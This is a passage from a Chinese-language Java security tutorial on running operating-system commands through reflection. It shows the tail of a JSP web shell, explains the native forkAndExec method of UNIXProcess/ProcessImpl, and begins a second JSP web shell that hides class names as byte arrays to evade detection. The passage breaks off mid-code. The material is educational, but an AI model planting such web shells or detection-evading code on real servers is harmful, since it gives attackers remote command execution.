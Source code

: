 ```java
  Object object = constructor.newInstance(cmd);
  Object object2 = method_start.invoke(object);

  //反射执行getInputStream方法
  Method method_getInputStream = object2.getClass().getDeclaredMethod("getInputStream");
  method_getInputStream.setAccessible(true);

  //输出结果
  Scanner scanner = new Scanner((InputStream) method_getInputStream.invoke(object2, new Object[]{})).useDelimiter("\\A");
  String result = scanner.hasNext() ? scanner.next() : "";

  out.write(result);
%>
```

### UNIXProcess/ProcessImpl

`UNIXProcess`和`ProcessImpl`其实就是最终调用`native`执行系统命令的类，这个类提供了一个叫`forkAndExec`的native方法，如方法名所述主要是通过`fork&exec`来执行本地系统命令。

`UNIXProcess`类的`forkAndExec`示例：

```java
private native int forkAndExec(int mode, byte[] helperpath,
                                   byte[] prog,
                                   byte[] argBlock, int argc,
                                   byte[] envBlock, int envc,
                                   byte[] dir,
                                   int[] fds,
                                   boolean redirectErrorStream)
        throws IOException;
```

### 反射UNIXProcess/ProcessImpl执行本地命令

#### reflect-processimpl.jsp

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.*" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="java.lang.reflect.Method" %>

<%!
    byte[] toCString(String s) {
        if (s == null) {
            return null;
        }

        byte[] bytes  = s.getBytes();
        byte[] result = new byte[bytes.length + 1];
        System.arraycopy(bytes, 0, result, 0, bytes.length);
        result[result.length - 1] = (byte) 0;
        return result;
    }

    InputStream start(String[] strs) throws Exception {
        // java.lang.UNIXProcess
        String unixClass = new String(new byte[]{106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 85, 78, 73, 88, 80, 114, 111, 99, 101, 115, 115});

        // java.lang.ProcessImpl
        String processClass = new String(new byte[]{106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 80, 114, 111, 99, 101, 115, 115, 73, 109, 112, 108});
```